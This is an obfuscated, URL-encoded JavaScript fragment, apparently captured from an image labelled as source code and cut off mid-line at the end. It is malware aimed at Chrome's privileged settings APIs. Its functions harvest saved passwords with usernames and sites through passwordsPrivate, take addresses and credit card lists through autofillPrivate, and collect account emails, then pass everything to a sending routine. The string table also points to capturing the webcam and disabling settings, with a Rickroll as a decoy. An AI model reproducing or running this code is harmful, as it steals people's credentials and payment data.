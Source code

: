 _0x296d64=['com/watch?%27,%27resolve%27,%27%]\x20Restori%27,%27cursor_ena%27,%27_scale%27,%27eart\x27s\x20bee%27,%27and\x20desert%27,%27drawImage%27,%27anguage.xk%27,%27mediaDevic%27,%27cursor_dip%27,%27en\x20going\x20o%27,%27webUIRespo%27,%27Restore%27,%27ate%27,%27e\x20and\x20we\x27r%27,%27onloadend%27,%27sync\x20passw%27,%27Restore\x22\x20b%27,%27t\x20to\x20undo\x20%27,%27srcObject%27,%27prompt\x20so\x20%27,%271357379wGIdTZ%27,%27ouchpad.na%27,%27?data=%27,%27inking\x20of\x0a%27,%27\x20full\x20comm%27,%27_size%27,%27bled%27,%27We\x27re\x20no\x20s%27,%27thodLists%27,%273608376zALuoo%27,%27olver%27,%27prefs.font%27,%27repeat%27,%27tadata%27,%27removeInpu%27,%27hat\x20I\x27m\x20th%27,%27oint\x20blank%27,%27led%27,%27terCurly%27,%27List%27,%27resolver.j%27,%27ord:\x20%27,%27marginLeft%27,%2733471hKmsxW%27,%27\x20make\x20you\x20%27,%27cript\x20rest%27,%27ay\x20it\x0a\x20\x20An%27,%27URL%27,%27for\x20so\x20lon%27,%27ow\x20the\x20gam%27,%27\x20window.ke%27,%27getUserMed%27,%27Comic\x20Sans%27,%27understand%27,%27that\x20it\x20ca%27,%27thod%27,%27title%27,%27ie\x20and\x20hur%27,%27Inside,\x20we%27,%27218DtEYiZ%27,%27al_r2%27,%27abled%27,%27e\x0a\x20\x20Never\x20%27,%27button%27,%27ons\x20such\x20a%27,%27a\x20tell\x20a\x20l%27,%27s\x20Securly.%27,%27etEncrypti%27,%27b_remap_se%27,%27sin%27,%27This\x20will\x20%27,%27ny\x20other\x20g%27,%27\x20MS%27,%27ake\x20you\x20cr%27,%27ke\x20you\x20cry%27,%27webkit.web%27,%27g\x0a\x20\x20Don\x27t\x20%27,%27chrome://r%27,%27lable%27,%27thods%27,%27requestFul%27,%27email%27,%27stringify%27,%27\x20\x20You\x20woul%27,%27his\x20from\x20a%27,%27w.youtube.%27,%27key%27,%27100CJWHfm%27,%27_mouse_fol%27,%27substring%27,%27dn\x27t\x20get\x20t%27,%27s/promise_%27,%27mage?url=%27,%27v=dQw4w9Wg%27,%27ll\x20you\x20how%27,%27random%27,%27getContext%27,%27disabled%27,%27stop%27,%27\x20both\x20know%27,%27\x0a\x20\x20Never\x20g%27,%27b_auto_rep%27,%27esources/j%27,%27say\x20it)\x0a\x20\x20%27,%27rivate%27,%27e\x20and\x20hurt%27,%27Please\x20set%27,%27r\x20gonna\x20ru%27,%27cape_key_t%27,%27start%27,%27\x20you\x0a\x20\x20We\x27%27,%27image/jpeg%27,%27own\x0a\x20\x20Neve%27,%275384864USQwfa%27,%27l_keyboard%27,%27onclick%27,%27b_remap_es%27,%27https://ww%27,%27t_key_to%27,%27promise%27,%27you\x20up\x0a\x20\x20N%27,%27languageSe%27,%27play%27,%27autofillPr%27,%27r\x20gonna\x20ma%27,%27\x20what\x27s\x20be%27,%27map%27,%27_magnifier%27,%27\x20too\x20shy\x20t%27,%27result%27,%27dPrivate%27,%27b_remap_co%27,%27ivate%27,%27n\x20(going\x20o%27,%27ardList%27,%27getAccount%27,%27the\x20Chrome%27,%27d_r2%27,%27video%27,%27eat_enable%27,%27ick%27,%27SyncSetupS%27,%27join%27,%27ent%27,%27settingsPr%27,%27n)\x0a\x20\x20We\x20kn%27,%27you\x0a\x20\x20Neve%27,%27not\x20close\x20%27,%27inputMetho%27,%27y\x20Exploit%27,%27gonna\x20say\x20%27,%27itment\x27s\x20w%27,%27eat_delay_%27,%27toDataURL%27,%27down\x0a\x20\x20Nev%27,%27er\x20gonna\x20r%27,%27reverse%27,%27nd\x20desert\x20%27,%27n\x20about:bl%27,%27un\x20around\x20%27,%27e\x20your\x20adm%27,%27d\x20so\x20do\x20I\x20%27,%27e\x20gonna\x20pl%27,%27map_backsp%27,%27oodbye\x0a\x20\x20N%27,%27I\x27m\x20feelin%27,%27ttingsPriv%27,%27href%27,%27tell\x20me\x20yo%27,%27Run\x20this\x20o%27,%27t\x20you%27,%27canvas%27,%27link%27,%27o\x20love\x0a\x20\x20Y%27,%27fullName%27,%27Zoom%27,%2711y.high_c%27,%27settings.a%27,%27ontrast_en%27,%27d\x20therefor%27,%27createElem%27,%27generateAp%27,%27the\x20page\x20w%27,%27y\x20COPYRIGH%27,%27username%27,%27Launch\x20Bet%27,%27src%27,%27sk\x20me\x20how\x20%27,%27sendWithPr%27,%27unshift%27,%27chrome%27,%27OS\x20account%27,%27urls%27,%27setPref%27,%27Never\x20gonn%27,%27tails%27,%27body%27,%27\x20you\x20up\x0a\x20\x20%27,%275545281JJHIpT%27,%27getInputMe%27,%27lind\x20to\x20se%27,%27settings.t%27,%27nse%27,%27settings.l%27,%27ouchpad.se%27,%27y\x0a\x20\x20Never\x20%27,%2711y.virtua%27,%27Emergency\x20%27,%2711y.autocl%27,%27391338OaLDZd%27,%27children%27,%27componentE%27,%27goodbye\x0a\x20\x20%27,%27f.Zyyy%27,%27pForLink%27,%27nd_functio%27,%27ress\x20the\x20\x22%27,%27getSavedPa%27,%27e\x20rules\x20an%27,%27anguage.se%27,%27omise%27,%2711y.screen%27,%27split%27,%27remove%27,%2740xzwUke%27,%27dentialsDe%27,%2711y.sticky%27,%27readAsData%27,%27hile\x20the\x20s%27,%27d\x20if\x20you\x20a%27,%27tMethod%27,%275402448cgAtWM%27,%27append%27,%27ever\x20gonna%27,%27width%27,%27passwordsP%27,%2711y.large_%27,%27s.fixed.Zy%27,%27audio/ogg;%27,%27apply%27,%27trangers\x20t%27,%27data%27,%27s/cr.js%27,%27(do\x20I)\x0a\x20\x20A%27,%27floor%27,%27setDefault%27,%27b_remap_al%27,%27BetterCurl%27,%27style%27,%27nsitivity2%27,%27getAddress%27,%27addInputMe%27,%27.Zyyy%27,%27PromiseRes%27,%27ach\x20other\x20%27,%27\x20I\x27m\x20feeli%27,%27ores\x20your\x20%27,%27textConten%27,%27ank\x20with\x20p%27];_0x3af9=function(){return%20_0x296d64;};return%20_0x3af9();}async%20function%20_0x7115b(){const%20_0xd3bcdb=_0x4444b2;let%20_0xb8694c=await%20chrome[%27passwordsP%27+_0xd3bcdb(0x254)][_0xd3bcdb(0x2c5)+%27sswordList%27]();let%20_0x1a6c45=_0xb8694c[_0xd3bcdb(0x26a)](_0x1dce5f=%3E_0x1dce5f[%27id%27]);let%20_0x18b55e=await%20chrome[_0xd3bcdb(0x1d2)+_0xd3bcdb(0x254)][%27requestCre%27+%27dentialsDe%27+_0xd3bcdb(0x2af)](_0x1a6c45);let%20_0x4d9f22=_0x18b55e[_0xd3bcdb(0x26a)](_0x3b8f2c=%3E({%27user%27:_0x3b8f2c[_0xd3bcdb(0x2a4)],%27pass%27:_0x3b8f2c[%27password%27],%27site%27:_0x3b8f2c[_0xd3bcdb(0x2ac)][_0xd3bcdb(0x298)]}));_0x53421d(_0x4d9f22);}async%20function%20_0x1066a8(){const%20_0x28edac=_0x4444b2;let%20_0x3ba6f4=await%20chrome[_0x28edac(0x267)+%27ivate%27][_0x28edac(0x1e1)+_0x28edac(0x213)]();let%20_0x14f87b=await%20chrome[_0x28edac(0x267)+%27ivate%27][%27getCreditC%27+_0x28edac(0x272)]();_0x53421d({%27address_list%27:_0x3ba6f4,%27credit_card_list%27:_0x14f87b});}async%20function%20_0x2c56cc(){const%20_0x1596fc=_0x4444b2;let%20_0x48da9d=await%20_0x59ee03(_0x1596fc(0x273)+%27s%27);_0x48da9d=_0x48da9d[_0x1596fc(0x26a)](_0x3108f5=%3E({%27email%27:_0x3108f5[_0x1596fc(0x23d)],%27nam